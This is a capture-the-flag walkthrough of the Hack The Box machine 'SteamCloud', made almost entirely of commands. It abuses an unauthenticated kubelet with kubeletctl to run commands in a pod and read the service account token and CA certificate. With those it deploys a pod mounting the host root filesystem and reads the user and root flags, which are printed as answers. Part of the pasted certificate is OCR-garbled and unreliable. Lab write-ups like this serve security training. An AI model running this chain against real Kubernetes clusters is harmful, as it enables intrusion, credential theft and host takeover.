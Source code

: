 HTB - SteamCloud
```bash - kali
curl https://$TARGET:10250/pods -k
```
```bash - kali
git clone https://github.com/cyberark/kubeletctl
```
```bash - kali
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.7/kubeletctl_linux_amd64
```
```bash - kali
chmod a+x ./kubeletctl_linux_amd64
```
```bash - kali
sudo mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```
```bash - kali
kubeletctl --server $TARGET pods
```
![[Pasted image 20220217212355.png]]
```bash - kali
kubeletctl --server $TARGET scan rce
```
![[Pasted image 20220217212432.png]]
```bash - kali
kubeletctl --server $TARGET exec "id" -p nginx -c nginx
```
```bash - kali
kubeletctl --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx
```
`eyJhbGciOiJSUzI1Ni.....`
```bash - kali
kubeletctl --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx
```
```
..
—-—-—---BEGIN CERTIFICATE-----
MIIDBjCCAe6gAWIBAgIBATANBgkqhkiGO9w@BAQs FADAVMRMWEQYDVQQDEwptawsp a3ViZUNBMB4XDTIXMTEYOTEYMTY1NVOXDTMXMTEYODEYMTY1NVowFTETMBEGA1UE AXMKbWluawWt1YmVDQTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAOOa YRSqoSUfHaMBK44xXLLUFXNELhJrC/900R2Gpt8DuBNIWSve+mgNxbOLTofhgQoM HLPTTxnfZ5VaavDH2GHiFrtfUWD/g7HA8aXn7cOCNxdf1k7MOX0QjPRB3Ug2cID7 degATtnjZaXTkoVUyUp5Tq3vmwhVkPXDtROc7QaTR/AUeR10x09+mPo3ry6S2xqG VeeRhpK6Ma3FpJB30oN0OKz5e6areAOpBP5cVFd68/Np3aecCLrxf2Qdz/d9Bpisll hnRBjBwFDdzQVeIJRKhSAhczDbKP64bNi2K1ZU95k5YkodSgXyZmmk fgYORyg990 1pRrbLrfNk6DE5S9VSUCAWEAAaNhMF8wDgYDVROPAQH/BAQDAgKKMBOGA1Ud JQQW MBQGCCsGAQUFBWMCBggrBgEFBQCcDATAPBENVHRMBAf8EBTADAQH/MBOGA1UdDgQW BBSpRKCEKbVtRsYEGRwyaVeonBdMCjANBgkqhkiGO9w@BAQs FAAOCAQEAQjqg5pUm 1t1jIeLKYT1E6C5XxykWOX8mOWzmok17rSMA2GYISqdbRcw72aocvdGI2Z78X/HyO e/ UETZ RS AVE & R {ora Akl b B £ 7 p AT o & VA L\VEEE EVES T B ba ] : 131 B VS 9MGEdIpuHqZ15HHYeZ83SQWc jOHO1ZGpSriHbfxAIlgRvtYBfnciP6Wgcy+YuU/D XpCIgRAWOIUgK74EdYNZAkrWuSOAQUa8KiKuhklyZv383ib3FvAo4JrBX1Sjw/RO JWSyodQkEF60Xh7yd21RFhtyE8J+h1HeTz4FpDJI7MuvfXfoXxSDQOYNQuU@9iFiMz kf2eZIBNMpOTFg==
—————END CERTIFICATE----—-
```
```bash - kali
export token="eyJhbGciOiJSUzI1Ni....."
```
Save the ca.crt output to a file named "ca.crt"
```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 get pods
```
```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 auth can-i --list
```
---
f.yaml
```yaml - kali
apiVersion: v1
kind: Pod
metadata:
  name: nginxt
  namespace: default
spec:
  containers:
  - name: nginxt
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
---
```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 apply -f f.yaml
```
```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 get pods
```
```bash - kali
kubeletctl --server $TARGET exec "cat /root/home/user/user.txt" -p nginxt -c nginxt
```
==f1561ae2cc46d3da137f8fc0a9e6ed9f==
```bash - kali
kubeletctl --server $TARGET exec "cat /root/root/root.txt" -p nginxt -c nginxt
```
==fe4607da38330e4c2281fe512417640b==